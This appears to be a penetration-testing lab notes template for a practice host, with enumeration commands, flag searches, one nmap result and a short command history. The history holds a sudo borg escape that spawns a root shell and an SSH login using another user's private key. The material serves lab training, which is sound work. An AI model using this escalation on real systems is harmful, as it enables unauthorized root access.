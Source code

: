 # 172.16.112.19
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- /home/sarah/local.txt
- /root/proof.txt

# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 172.16.164.19 --top-ports 1000`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
`sudo nmap -A -T4 -p- 172.16.112.19`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.159.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern`
```

```

# Command History
```c
ssh 'youradmin@RELIA.COM'@<target-ip>
ssh 'youradmin@relia'@<target-ip>
ssh 'RELIA\haxadmin'@172.16.164.19

// id rsa in challenge/2
ssh -i sarah_id_rsa sarah@172.16.164.19

//get root
sudo /usr/bin/borg extract @:/::: --rsh "sh -c 'sh </dev/tty >/dev/tty 2>/dev/tty'"


```
